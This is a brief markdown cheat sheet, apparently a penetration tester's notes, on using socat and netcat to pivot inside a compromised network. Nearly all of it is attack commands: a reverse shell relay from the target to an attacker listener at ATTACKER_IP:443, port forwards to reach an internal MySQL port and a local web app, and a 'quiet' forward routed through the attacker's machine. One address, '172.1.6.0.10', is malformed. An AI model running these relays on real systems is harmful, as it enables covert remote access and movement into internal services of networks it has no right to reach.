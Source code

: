 ## Reverse shell relay

### Attacker: 

    sudo nc -lvnp 443 

### Target: 

    ./socat tcp-l:8000 tcp:ATTACKER_IP:443 &

## Port Forwarding

    ./socat tcp-l:33060,fork,reuseaddr tcp:172.1.6.0.10:3306 &

#### Run this on target machine, then browse to TARGET_IP:1234 from Kali machine to access the application

    socat TCP-LISTEN:1234,fork,reuseaddr tcp:127.0.0.1:8080 & 

#### Fork: Puts every connection into a new process

#### Reuseaddr: The port stays open after a connection is made to it.

## Port forwarding (Quiet)

### Attacker: 

    socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

### Target: 

    ./socat tcp:ATTACKER_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &

## Close backgrounded socat

### 1: 

    jobs

### 

    kill %num% of process

